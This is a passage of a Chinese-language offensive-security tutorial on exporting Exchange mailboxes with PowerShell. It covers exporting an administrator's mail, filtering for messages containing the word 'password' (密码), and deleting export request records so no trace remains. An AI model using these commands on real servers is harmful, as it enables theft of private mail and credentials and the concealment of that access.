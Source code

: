 导出指定 administrator 用户的所有邮件到 C:\users\public\ 目录下

$Username = "administrator"  

New-MailboxexportRequest -mailbox $Username -FilePath ("\\localhost\c$\users\public\"+$Username+".pst") -CompletedRequestAgeLimit 0

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cOQ4y2LPbOicOictFxvXzHFuFPoibhYoxx6xCs953wVuWOkV64VibCic4c1k8BWibXJxZjHad3tFbuFBibQ/640)

![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucCiayA3GECqVoib2sEloM0Sl1BMwTpo3AhHkjqoy8hAdMRhibaSqrdZj8s0PMHBZAH9LHLfxhSmQOUUow/640?wx_fmt=png)

筛选导出邮件

筛选出指定用户的 administrator 中包含 pass 的邮件，保存到 Exchange 服务器的 c:\users\public \ 目录下

  

  

$User = "administrator"

New-MailboxexportRequest -mailbox $User -ContentFilter {(body -like "* 密码 *")} -FilePath ("\\localhost\c$\users\public\"+$User+".pst") -CompletedRequestAgeLimit 0

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cOQ4y2LPbOicOictFxvXzHFu6TSKXZ18BMS1nmUu6ZbYTWp3AY2TEtvpYuYYeRj8icJZgXhFy6R3iaTA/640)

![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucCiayA3GECqVoib2sEloM0Sl1BMwTpo3AhHkjqoy8hAdMRhibaSqrdZj8s0PMHBZAH9LHLfxhSmQOUUow/640?wx_fmt=png)

导出请求记录

导出后会自动保存导出请求的记录，默认为 30 天，如果不想保存导出请求，可以加上参数

  

  

-CompletedRequestAgeLimit 0

其他关于导出请求记录命令

  

  

#查看邮件导出请求

Get-MailboxExportRequest

#删除所有导出请求

Get-MailboxExportRequest|Remove-MailboxExportRequest -Confirm:$false

#删除某个导出请求

Remove-MailboxExportRequest -Identity 'xie.com/Users/hack\MailboxExport' -Confirm:$false

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cOQ4y2LPbOicOictFxvXzHFuE2ktwgia5XW3TYr1OBpbugywjMNic4ia1vKkiaWjM3SPBfC38Hbicib3MEfg/640)

![](https://mmbiz.qpic.cn/mmbiz_png/FIBZec7ucCiayA3GECqVoib2sEloM0Sl1BMwTpo3AhHkjqoy8hAdMRhibaSqrdZj8s0PMHBZAH9LHLfxhSmQOUUow/640?wx_fmt=png)

使用 powershell 脚本导出邮件

该 powershell 脚本作者：[3gstudent] https://3gstudent.github.io
